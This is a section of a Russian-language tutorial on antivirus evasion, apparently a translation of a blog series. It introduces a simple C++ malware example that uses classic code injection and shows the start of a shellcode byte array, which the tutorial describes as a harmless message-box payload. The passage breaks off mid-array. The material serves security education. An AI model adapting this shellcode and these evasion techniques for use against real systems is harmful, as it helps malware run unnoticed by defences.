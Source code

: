 \newpage
\subsection{56. Техники обхода антивирусов - часть 3. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![av](./images/34/2021-12-26_16-05.png){width="80%"}    

Это третья часть учебника, в которой описан пример обхода антивирусных движков с помощью простого вредоносного ПО на C++.   

[первая часть](https://cocomelonc.github.io/tutorial/2021/09/04/simple-malware-av-evasion.html)    
[вторая часть](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html)    

В этом разделе мы попробуем реализовать некоторые техники, используемые вредоносным программным обеспечением для выполнения кода и сокрытия от защитных механизмов.    

Давайте рассмотрим пример исходного кода на C++ для нашего вредоносного ПО, который реализует [классическую инъекцию кода](https://cocomelonc.github.io/tutorial/2021/09/18/malware-injection-1.html):    


```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // 64-bit meow-meow messagebox without encryption
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
```